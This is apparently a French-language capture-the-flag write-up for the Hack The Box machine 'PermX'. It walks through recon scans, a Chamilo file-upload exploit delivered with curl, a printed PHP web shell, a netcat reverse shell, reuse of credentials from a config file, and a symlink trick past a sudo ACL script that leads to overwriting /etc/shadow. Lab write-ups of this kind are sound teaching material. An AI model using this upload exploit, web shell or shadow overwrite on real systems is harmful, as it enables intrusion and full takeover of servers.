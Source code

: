   # PermX

	echo "10.10.11.23 permx.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.23 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 -A 10.10.11.23 -oN nmap.txt
	feroxbuster --silent -u http://permx.htb
    ffuf -H "Host: FUZZ.permx.htb" -u http://permx.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -fw 18
	
Scans classiques.

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 
    80/tcp open  http    Apache httpd 2.4.52

Sous-domaines : 

    www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 35ms]
    lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 103ms]
	
http://lms.permx.htb/ => Formulaire de login

Robots.txt : 

    # Directories

    Disallow: /app/
    Disallow: /bin/
    Disallow: /documentation/
    Disallow: /home/
    Disallow: /main/
    Disallow: /plugin/
    Disallow: /tests/
    Disallow: /vendor/

    # Files
    Disallow: /license.txt
    Disallow: /README.txt
    Disallow: /whoisonline.php
    Disallow: /whoisonlinesession.php


http://lms.permx.htb/app/ => Directory listing

Un CVE sur Chamilo permet justement de faire de l'upload de fichier arbitraire : https://starlabs.sg/advisories/23/23-4220/#proof-of-concept

    curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
    ...
    curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php?cmd=id'

Fichier rce.php : 

    <?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
    
Obtention du premier shell en www-data : 

    nc -nvlp 9999
    curl -F 'bigUploadFile=@reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
    curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/reverse-shell.php'
    whoami
    
## Pivoting

Credentials MySQL dans un fichier de configuration et réutilisables pour l'utilisateur mtz : 

    cat /var/www/chamilo/app/config/configuration.php
    ssh mtz@10.10.11.23
    cat user.txt	 

## Élévation de privilèges

	sudo -l
> (ALL : ALL) NOPASSWD: /opt/acl.sh

Ce script semble faire un chmod sur un argument donné : 

    /usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
    
La vérification qu'il y a contient un '*' : 

    if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then

On ne peut pas utiliser de ".." mais on peut faire des liens et donc écrire un peu partout : 

    ln -s / racine
    sudo /opt/acl.sh mtz rwx /home/mtz/racine/etc/shadow
    cat shadow
    
Réécriture du mot de passe de root : 

    echo 'root:$y$j9T$RUjBgvOODKC9hyu5u7zCt0$Vf7nqZ4umh3s1N69EeoQ4N5zoid6c2SlGb1LvBFRxSB:19742:0:99999:7:::' > /etc/shadow
    su
    cat /root/root.txt
